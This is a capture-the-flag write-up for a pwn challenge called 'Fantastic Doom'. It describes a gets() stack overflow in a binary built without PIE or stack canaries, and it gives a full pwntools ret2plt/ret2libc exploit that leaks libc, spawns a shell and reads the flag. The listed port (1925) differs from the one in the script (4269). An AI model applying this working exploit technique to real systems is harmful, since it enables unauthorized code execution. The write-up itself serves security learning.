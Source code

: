 https://ctftime.org/event/2657

# Fantastic Doom (pwn)

Doctor Doom, the monarch of Latveria has made many doombots. You working with the Fantastic 4 have to access doombot machine and foil his plans of releasing doombots.

nc chall.ehax.tech 1925

## Analysis

We can see that the binary was compiled with `-no-pie` and appears to not have stack canaries:

```
$ pwn checksec ./chall
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

`main` @ - `0x00400787`:

- `gets(stack_buffer)` offset from retaddr by 0xa8 bytes

## Solution

1) ret2plt to bypass libc's aslr
2) ret2libc

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./chall", checksec=False)
context.binary = elf

libc = ELF("./libc-2.27.so", checksec=False)

#p = elf.process()
#p = elf.debug(gdbscript="b main")
p = remote("chall.ehax.tech", 4269)

rop = ROP(elf)
rop.raw(b"A" * 0xa8)
rop.puts(elf.got["puts"])
rop.raw(elf.sym["main"])
p.sendline(rop.chain())

p.readuntil(b"Failed Login\n")

leak = u64(p.recv(6) + b"\x00\x00")
libc.address = leak - libc.sym["puts"]
log.success(f"libc: {hex(libc.address)}")

rop = ROP(libc)
rop.raw(b"A" * 0xa8)
rop.rdi = p64(next(libc.search(b"/bin/sh\x00")))
rop.raw(p64(rop.find_gadget(['ret']).address)) # stack aligning ret
rop.call("system")
p.sendline(rop.chain())

p.readuntil(b"Failed Login\n")
p.sendline(b"/bin/cat flag.txt")
print(p.readline().decode()[:-1]) # EH4X{st4n_l33_c4m30_m1ss1ng_dOOoOoOoOoOOm}
```

## Flag
`EH4X{st4n_l33_c4m30_m1ss1ng_dOOoOoOoOoOOm}`

smiley 2025/02/16
